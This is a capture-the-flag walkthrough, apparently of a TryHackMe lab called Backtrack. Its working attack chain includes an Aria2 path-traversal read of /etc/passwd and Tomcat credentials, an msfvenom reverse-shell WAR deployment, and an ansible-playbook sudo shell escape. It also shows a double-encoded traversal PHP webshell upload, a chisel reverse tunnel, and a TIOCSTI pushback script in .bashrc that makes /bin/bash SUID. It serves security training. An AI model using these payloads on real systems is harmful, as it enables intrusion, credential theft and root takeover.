## TL;DR

In this challenge we starts with `LFI` that gives us the credentials for `tomcat`, which let us achieve `RCE` using webshell uploading.
Then, we move to user `wilbur` using sudo on `ansibile-playbook`. We move to user `ovrille` using webshell upload on internal service, and then escalate to root using `tty pushback` vulnerability. 

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `6800` with aria2 downloader JSON-RPC, port `8080` with apache tomcat and port `8888` with some http service.
```bash
PORT     STATE SERVICE         REASON         VERSION                                                                                                                                        
22/tcp   open  ssh             syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                                  
| ssh-hostkey:                                                                                                                                                                               
|   3072 55:41:5a:65:e3:d8:c2:4f:59:a1:68:b6:79:8a:e3:fb (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDzPMYVGNn9fk2sUO4qG8t3GP/3ztCkoIRFTSFwnaHtRTiIe8s3ulwJkAyTZHSmedBOMihmyWyEmA44uxY4kUZEiba8R+c7aWHjTvD04VcKWPgVg1URPWMTHyxUcwKGnoh8n6VwM283+/4f2g2GSj2
pVbacoV3xfDo8L4PshyfHK7dEd2qnQv9Yge3p5Aw/1Q7w1eaMZnaoicgzDgjhvqrRcS/DRcp3Lwoz6fGQW2/vFxW7d5aisTslKxRPslTy/Vrgprb7I+D9kdGEFqW/DXDfZLo+4O0woecE6+qSYPbIAjvIao25MTR8xHOFR0sCtyVfehEXYxvJ0fsqBG4y
p/y15eDT3MSYevdvhHH1ZLejV66zILbPqUhzFBuMW1U6PKvSNPiQdzlnIRpD8ZQN7KJI8Y6zlHgoh8iu7+PgcUQNixYrX1GhMCYwNGHQlLOLriVRzhScZV3ObH1V8+g8I2sc3WZ54G2XUqZX+pN3ugjN1L5mo8mht1m7ZME+W9if37U=             
|   256 79:8a:12:64:cc:5c:d2:b7:38:dd:4f:07:76:4f:92:e2 (ECDSA)                                                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJfVuy7uiXVmzWVPtY/BYF+RZF36ZR8rh7wxeZi7yeOdWd06henZf8z5rYfalc0YHr6kE3clVa0jq+pF64w/lso=                           
|   256 ce:e2:28:01:5f:0f:6a:77:df:1e:0a:79:df:9a:54:47 (ED25519)                                                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHMk87a1jTdUzEWZNm/XtZKIto5reBlJr75kFdCKXscp                                                                                                           
6800/tcp open  http            syn-ack ttl 62 aria2 downloader JSON-RPC                                                                                                                      
| http-methods:                                                                                                                                                                              
|_  Supported Methods: OPTIONS                                                                                                                                                               
|_http-title: Site doesn't have a title.                                                                                                                                                     
8080/tcp open  http            syn-ack ttl 62 Apache Tomcat 8.5.93                                                                                                                           
|_http-title: Apache Tomcat/8.5.93                                                                                                                                                           
| http-methods:                                                                                                                                                                              
|_  Supported Methods: GET HEAD POST                                                                                                                                                         
|_http-favicon: Apache Tomcat                                                                                                                                                                
8888/tcp open  sun-answerbook? syn-ack ttl 62
```

I added `backtrack.thm` to my `/etc/hosts`.

### LFI in aria to get webshell upload using tomcat

The aria downloader was very interesting, I checked for the version, and found out this is `Aria2 Version 1.35.0`



Then, I googled and found `LFI` vulnerability for this version, here [https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e)

I tried the PoC:
```bash
┌──(agonen㉿kali)-[~/thm/Backtrack]
└─$ curl --path-as-is 'http://backtrack.thm:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:122:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```

It worked, we have `LFI`.
I know we have `tomcat` installed, and I can see the home folder for the tomcat is `/opt/tomcat`. I searched for credentials, at the location `/opt/tomcat/conf/tomcat-users.xml`:
```bash
┌──(agonen㉿kali)-[~/thm/Backtrack]
└─$ curl --path-as-is 'http://backtrack.thm:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml'
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="OPx52k53D8OkTZpx4fr" roles="manager-script"/>

</tomcat-users>
```

We got the credentials:
```bash
tomcat:OPx52k53D8OkTZpx4fr
```

I tried to login with this credentials at `/host-manager/html`, and we got 403 permissions denied, since we are not coming from `127.0.0.1`:



We can verify this by checking the file `/opt/tomcat/webapps/host-manager/META-INF/context.xml`:



However, we still have valid credentials with manager-script role. I googled and found [https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00), which guides us on how to upload webshell in this case.
First, create the webshell using `msfvenom`:
```bash
msfvenom -p java/shell_reverse_tcp lhost=192.168.138.59 lport=1337 -f war -o pwn.war
```

Then, Upload the webshell:
```bash
curl -v -u tomcat:OPx52k53D8OkTZpx4fr --upload-file pwn.war 'http://backtrack.thm:8080/manager/text/deploy?path=/foo&update=true'
```

Lastly, set up listener and trigger the webshell:
```bash
nc -nvlp 1337
```

and trigger the webshell:
```bash
curl http://backtrack.thm:8080/foo
```

we got our reverse shell.



I pasted the payload from penelope, as usual.
We can grab our first flag:
```bash
tomcat@Backtrack:~$ cat flag1.txt 
THM{823e4e40ead9683b06a8194eab01cee8}
```



### Move to user wilbur using ansible-playbook

I checked for sudo permissions, we can execute some file under user `wilbur`:
```bash
tomcat@Backtrack:~$ sudo -l
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```

I found out `/usr/bin/ansible-playbook` is vulnerbale to privilege escalation, notice we uses `*`. We'll use [https://gtfobins.github.io/gtfobins/ansible-playbook/](https://gtfobins.github.io/gtfobins/ansible-playbook/).

First, let's create our payload:
```bash
tomcat@Backtrack:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >/tmp/shell.yml
tomcat@Backtrack:~$ chmod 644 /tmp/shell.yml
```

Now, we can spawn the shell as user `wilbur`:
```bash
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/shell.yml
```



### Webshell upload on internal images web server  

I saw some note on the home folder:
```bash
wilbur@Backtrack:~$ cat from_orville.txt 
Hey Wilbur, it's Orville. I just finished developing the image gallery web app I told you about last week, and it works just fine. However, I'd like you to test it yourself to see if everything works and secure.
I've started the app locally so you can access it from here. I've disabled registrations for now because it's still in the testing phase. Here are the credentials you can use to log in:

email : orville@backtrack.thm
password : W34r3B3773r73nP3x3l$
```

In addition, there was hidden file that contains the credentials for user `wilbur`:
```bash
wilbur@Backtrack:~$ cat .just_in_case.txt 
in case i forget :

wilbur:mYe317Tb9qTNrWFND7KF
```

I checked for opened ports using `ss -tln`, and saw port `80`:



I set up port tunneling using `chisel`, which I uploaded to the remote machine

> remote:
```bash
./chisel client 192.168.138.59:1234 R:9000:127.0.0.1:80
```
> local: 
```bash
chisel server --reverse -p 1234
```


Now we can visit the service at `http://localhost:9000/`



I logged in with the credentials and tried to upload webshell:



It blocks me if i'm not uploading image, however, we can use the double extension trick, like `webshell.jpg.php`.

I uploaded the webshell:
```php
<?php echo system($_GET[0]) ?>
```



From some reason, it didn't executed the webshell:



I checked the configuration inside `/etc/apache2/apache2.conf`, and saw that inside the location `/var/www/html/uploads`, the next line is wrote `php_flag engine off`.



From what I checked online, it disabled php code execution, to disable `RCE`. However, It disables only on this folder, what if we'll manage to upload file to `../`, like to `/var/www/html`.
The idea is to use `../`, and URL encode it twice, which gives us `%25%32%65%25%32%65%25%32%66`



Next, the full image name will be `%25%32%65%25%32%65%25%32%66webshell.jpg.php`:



Now, we can access `/webshell.jpg.php?0=id` and get our `RCE`:



Now, we can paste the penelope payload and grab the second flag
```bash
orville@Backtrack:/home/orville$ cat flag2.txt 
THM{01d8e83d0ea776345fa9bf4bc08c249d}
```



### Privilege Escalation to Root using tty pushback

I used pspy64 to inspect running processes. It looks like the root changed user to `orville`, using `su`.



If so, we can use the TTY Pushback vulnerability, which gives us privilege escalation. [https://www.errno.fr/TTYPushback.html](https://www.errno.fr/TTYPushback.html)

The `-` in the `su - orville` loaded all bash scripts, so we can execute the priv esc by putting it inside `.bashrc`

This is the source code, I changed it to have the `chmod u+s /bin/bash\n`.
```py
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'chmod u+s /bin/bash\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

Now, create the exploit:
First, create `/home/orville/priv_esc.py`, and then put it inside `.bashrc`:
```bash
echo -e 'python3 /home/orville/priv_esc.py' >> .bashrc
```



Now, just wait and spawn our root shell:



The third flag:
```bash
bash-5.0# cat flag3.txt 

██████╗░░█████╗░░█████╗░██╗░░██╗████████╗██████╗░░█████╗░░█████╗░██╗░░██╗
██╔══██╗██╔══██╗██╔══██╗██║░██╔╝╚══██╔══╝██╔══██╗██╔══██╗██╔══██╗██║░██╔╝
██████╦╝███████║██║░░╚═╝█████═╝░░░░██║░░░██████╔╝███████║██║░░╚═╝█████═╝░
██╔══██╗██╔══██║██║░░██╗██╔═██╗░░░░██║░░░██╔══██╗██╔══██║██║░░██╗██╔═██╗░
██████╦╝██║░░██║╚█████╔╝██║░╚██╗░░░██║░░░██║░░██║██║░░██║╚█████╔╝██║░╚██╗
╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{f728e7c00162e6d316720155a4a06fa8}
```

